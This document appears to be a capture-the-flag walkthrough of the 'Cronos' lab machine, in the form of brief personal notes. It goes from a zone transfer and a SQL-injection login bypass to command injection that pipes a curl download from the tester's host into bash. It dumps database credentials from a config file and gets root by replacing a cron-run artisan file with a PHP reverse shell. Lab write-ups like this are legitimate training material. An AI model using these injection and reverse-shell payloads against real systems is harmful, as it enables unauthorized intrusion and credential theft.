






With port 53 being open my first step was a zone transfer and we find a subdomain ns1.cronos.htb

looks like this might be a false positive ffuf finds www and admin
on the admin page I was able to login with sql injection using the username admin'OR'1'='1'# with no password

We have command injection

Trying to execute a simple shell directly does not work. However I can use curl to grab my shell and pipe it into bash to get a reverse shell.
8.8.8.8;curl http://10.10.14.24:8000/shell.sh |bash

When we cat the config file we get some creds for the admin user
cat config.php
<?php
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'admin');
define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
define('DB_DATABASE', 'admin');
$db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
We get an admin hash from the mysql database which might crack to the same password above.
mysql -h localhost -u admin -p --database admin

admin | 4f5fffa7b2340178a716e3832451e058
I have a feeling the hash is a rabbit hole
On the users home directory I find a interesting folder called .composer which is related to getcomposer
www-data@cronos:/home/noulis/.composer$ ls
cache keys.dev.pub keys.tags.pub
/var/www/laravel/artisian is being ran by root every minute with php and we own it.
The first time I did this it wouldnt call back to me it kept giving me syntax issues for some reason. I reset the machine and it gave me the same error. I tried going super deep into it and editing other things that were being called to no luck.
I did some testing on my machine and got the syntax right. Maybe the shell I was using was bad but i eventually got one that worked.
Deleted the artisan file and replaced it with a shell and we got a callback this time.
shell
<?phpexec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.24/9998 0>&1'");
